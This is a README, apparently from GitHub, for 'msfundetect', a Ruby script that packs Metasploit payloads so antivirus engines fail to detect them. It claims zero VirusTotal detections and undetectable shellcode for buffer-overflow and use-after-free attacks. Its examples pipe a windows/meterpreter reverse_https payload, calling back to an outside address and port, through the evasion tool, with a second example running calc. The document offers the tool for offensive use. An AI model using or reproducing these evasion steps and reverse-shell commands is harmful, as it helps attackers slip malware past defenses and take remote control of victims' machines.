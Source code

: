 msfundetect
===========

Msfundetect is a ruby script that undetects payloads and it can be used smoothly with Metasploit's msfpayload for getting 0/54 detections in virustotal.

usage: msfundetect <payload>

explanation:
Msfundetect is based in "hyperion" packer (by Ammann, 2012, http://nullsecurity.net/papers/nullsec-pe-crypter.pdf).
Instead of using hyperion's original approach of bruteforcing an AES key in order to decrypt the payload, msfundetect bruteforces the entire payload using an optimized crc16, which generates a self unpacking shellcode containing the crc16 hashing function and the crc16 hashed payload.

advantages:
Msfundetect generates undetectable standalone shellcode (which may be used in buffer-overflow, use-after-free attacks).
It also has the option to make an executable, which is also undetectable.





examples:

msfpayload windows/meterpreter/reverse_https lhost=55.55.55.55 lport=55 r | msfencode -e x86/alphamixed bufferregister=eax -t raw | msfundetect x

msfpayload windows/exec cmd=calc r | msfencode -e x86/alphamixed bufferregister=eax -t raw | msfundetect c
